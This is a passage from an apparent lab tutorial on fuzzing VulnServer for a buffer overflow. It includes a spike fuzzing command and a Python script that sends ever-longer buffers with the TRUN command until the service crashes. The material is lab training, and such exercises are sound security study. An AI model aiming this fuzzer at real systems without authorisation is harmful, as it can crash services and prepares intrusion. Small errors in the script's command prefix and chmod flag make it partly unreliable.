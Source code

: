 ```
# generic_send_tcp <Windows IP> <port#> stats.spk 0 0
```
Check Immunity Debugger to see when it caused an error. 
Each time an error is cause you will need to restart both VulnServer and Immunity Debugger as administrator, or you may have some issues. 
Check the EBP for 41414141 meaning it over wrote it will A’s to verify we can buffer overflow. You may also see that you over wrote the ESP and EIP. 


If you look at the EAX register ASCII you will notice 
```
EAX 0102F1E8 ASCII TRUN /.:/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```

This tells us that when we Fuzz the program we will have to use 
```
TRUN /.:/
```

## Fuzzing: 

#### Kali Linux: 

create python script fuzz.py

```
#!/usr/bin/python

import sys, socket
from time import sleep

buffer = 'A' * 100

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    # change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + buffer))                     # change TRUN to be the command you are Fuzzing
            s.close()
            sleep(1)
            buffer = buffer + "A"*100

    except: 
            print "Fuzzing crashed at %s bytes" % str(len(buffer))
            sys.exit()
```


Make fuzz.py executable (chmod +X fuzz.py) or run in python terminal
Run fuzz.py (make sure VulnServer and Immunity are running on Windows 10)
fuzz.py might not stop on its own right away. 
If you see VulnServer crash in Immunity you can close out of fuzz.py (ctrl + c)

